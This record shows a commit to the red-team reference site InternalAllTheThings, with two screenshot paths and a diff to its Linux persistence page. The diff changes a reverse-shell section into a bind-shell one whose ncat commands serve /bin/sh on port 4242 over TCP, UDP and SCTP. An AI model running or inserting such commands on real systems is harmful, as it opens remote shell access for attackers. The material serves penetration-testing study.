

Before and after one commit to swisskyrepo/InternalAllTheThings, an MkDocs documentation site: the page built from docs/redteam/persistence/linux-persistence.md, in a window 1280 px wide and 900 px high, scrolled down 476 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update linux-persistence.md

````diff
--- a/docs/redteam/persistence/linux-persistence.md
+++ b/docs/redteam/persistence/linux-persistence.md
@@ -18,12 +18,12 @@
 * [References](#references)
 
 
-## Basic reverse shell
+## Basic bind shell
 
 ```bash
-ncat --udp -lvp 4242
-ncat --sctp -lvp 4242
-ncat --tcp -lvp 4242
+ncat -e /bin/sh -lvp 4242
+ncat -e /bin/sh --udp -lvp 4242
+ncat -e /bin/sh --sctp -lvp 4242
 ```
 
 ## Add a root user
````
